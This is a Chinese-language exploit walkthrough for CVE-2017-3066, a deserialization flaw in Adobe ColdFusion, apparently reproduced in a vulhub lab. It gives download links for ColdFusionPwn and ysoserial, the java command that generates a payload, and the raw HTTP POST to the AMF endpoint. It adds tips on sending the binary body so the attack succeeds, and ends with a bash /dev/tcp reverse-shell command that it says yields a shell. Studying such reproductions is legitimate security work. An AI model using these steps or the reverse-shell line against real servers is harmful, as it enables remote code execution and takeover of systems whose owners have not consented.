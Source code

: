 （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

Adobe ColdFusion (2016 release) Update 3及之前的版本，

ColdFusion 11 Update 11及之前的版本，

ColdFusion 10 Update 22及之前的版本。

三、复现过程
------------

使用[ColdFusionPwn](https://github.com/ianxtianxt/ColdFusionPwnn)工具来生成POC。[点击下载ColdFusionPwn](http://wiki.0-sec.org/download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip)

Usage
-----

    java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile]

[点击下载ysoserial](http://wiki.0-sec.org/download/ysoserial.zip)【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

    java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`**路径不唯一，目前已收集到的为以下两种路径：****/flex2gateway/amf****/messagebroker/amf**

    POST /flex2gateway/amf HTTP/1.1
    Host: your-ip:8500
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-amf
    Content-Length: 2853

    [...poc...]

![](./.resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId28.png)

### 关于发送的内容编码问题

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200

#### 正确发送方式为：

右击选择**Paste From File**，上传**poc.cer**文件

![](./.resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId31.png)

再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存

![](./.resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId32.png)

进入容器中，发现`/tmp/success`已成功创建：

![](./.resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId33.png)

将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到shell：

![](./.resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId35.png)

补充一下反弹shell的命令,可以通过http://www.jackson-t.ca/runtime-exec-payloads.html在线转换

    bash -i >& /dev/tcp/ip/port 0>&1

参考链接
--------

> https://vulhub.org/\#/environments/coldfusion/CVE-2017-3066/
